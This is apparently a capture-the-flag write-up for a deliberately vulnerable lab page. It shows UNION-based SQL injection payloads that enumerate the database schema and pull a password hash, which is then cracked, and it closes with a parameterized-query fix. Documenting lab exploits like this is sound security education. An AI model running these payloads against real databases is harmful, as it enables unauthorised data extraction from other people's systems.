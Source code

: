 # Search members by ID

### Introduction

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

### Procedure

By entering an ID number, we can attempt to retrieve an initial table!

``
ID: 1 
First name: one
Surname : me
``

We can start by sending a SQL command:

``SELECT * FROM users``

``You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1``

We want to be able to use our own SELECT command and ignore the first one that gives an error. We can use the UNION method. The UNION keyword allows you to execute one or more additional SELECT queries and append the results to the original query.

We don't have the names of the columns, but thanks to ``information_schema``, which is default the database informations,  we can retrieve all the necessary data.

``1 UNION SELECT column_name, table_name FROM information_schema.columns``

```
ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: user_id
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: first_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: last_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: town
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: country
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: planet
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: Commentaire
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: countersign
Surname: users

```

We successfully retrieved all the corresponding tables and columns:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

Therefore, we can extract data from the users table with the following command:

``1 UNION SELECT first_name, country FROM users``

``` 
ID: 1 UNION SELECT first_name, country FROM users
First name: one
Surname: me

ID: 1 UNION SELECT first_name, country FROM users
First name: one
Surname: France

ID: 1 UNION SELECT first_name, country FROM users
First name: two
Surname: Finland

ID: 1 UNION SELECT first_name, country FROM users
First name: three
Surname: Ireland

ID: 1 UNION SELECT first_name, country FROM users
First name: Flag
Surname: 42
```

We have identified the table corresponding to the Flag; the rest should be in the other columns. A simple search among several columns will display the flag.

``1 UNION SELECT first_name, Commentaire FROM users``

```
ID: 1 UNION SELECT first_name, Commentaire FROM users
First name: Flag
Surname: Decrypt this password -> then lower all the char. Sh256 on it and it's good!
```

``1 UNION SELECT first_name, countersign FROM users``

```
ID: 1 UNION SELECT first_name, countersign FROM users
First name: Flag
Surname: 5ff9d0165b4f92b14994e5c685cdce28
```

### Decrypt the password

To decrypt the password, we use the MD5 Decrypt tool, converting ``5ff9d0165b4f92b14994e5c685cdce28`` to ``FortyTwo``. Following the instructions in the comment, we lower the characters to ``fortytwo``, and then encrypt it with a SHA-256 tool, resulting in ``10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5``.

### How to fix

We can prevent most instances of SQL injection using parameterized queries instead of string concatenation within the query. These parameterized queries are also know as "prepared statements". 

### Sources

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html#defense-option-3-allow-list-input-validation
